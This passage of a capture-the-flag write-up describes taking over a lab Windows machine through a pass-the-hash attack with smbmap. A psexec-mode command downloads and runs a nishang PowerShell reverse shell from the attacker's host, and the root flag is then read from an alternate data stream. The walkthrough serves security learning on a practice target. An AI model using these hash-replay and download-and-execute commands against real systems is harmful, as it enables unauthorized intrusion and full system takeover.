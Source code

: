 Since we now have a potential hash on the machine, we can use smbmap to test if we can authenticate to the server using a pass-the-hash attack. We can perform this attack using the `smbmap -u Administrator -p 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00' -H 10.10.10.63` command, which will tell us that we have write access over the ADMIN$ share:

![Checking to see if the NT hash is valid for the Administrator user](attachments/Pasted image 20220628204223.png)
Since we have write access to the ADMIN$ share, we should be able to psexec into the machine to gain command execution as NT AUTHORITY\\SYSTEM. We can attempt this attack with the following command: `smbmap -u Administrator -p 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00' -H 10.10.10.63 -x "powershell /c IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14:8000/Invoke-PowerShellTcp.ps1')" --mode psexec`

Note that for the above command to work properly, we must still be serving the nishang reverse shell on an http server using port 8000, and we must also reset the netcat listener to accept the new reverse shell from the server.

When the command executes, we can see that we have successfully gained super user command execution on the target machine:

![ Gaining NT AUTHORITY\SYSTEM access](attachments/Pasted image 20220628204825.png)
## Identifying the Root Flag Location in an Alternate Data Stream
---
Now that we are able to execute commands with administrative privileges, we can attempt to read the root flag from the Administrator's Desktop directory. Unfortunately, when we list the Administrator's desktop, we do not see the root flag, but rather we see a file called hm.txt. The contents of the hm.txt file inform us that the flag is elsewhere on the system:

![Reading hm.txt to find that the root flag is elsewhere](attachments/Pasted image 20220628210019.png)

We can check the Administrator's Desktop directory to see if there are any files containing alternate data streams in which the root flag may reside. We can perform this check using the following command: `cmd.exe /c "dir /r /a"`

After listing the dataset again, we can see that the root.txt file is an alternate data stream within the hm.txt file:

![Examining the Desktop for alternate data streams](attachments/Pasted image 20220628210306.png)

Note that we must use the "cmd.exe /c" wrapper around the above command because we are operating from within a powershell session, and powershell has different options for the dir command than the standard command prompt. The same technique is used below to read the alternate data stream.

In order to print out the real flag, we can use the following command: `cmd.exe /c "more < hm.txt:root.txt"`

![Reading out the root flag](attachments/Pasted image 20220628210548.png)
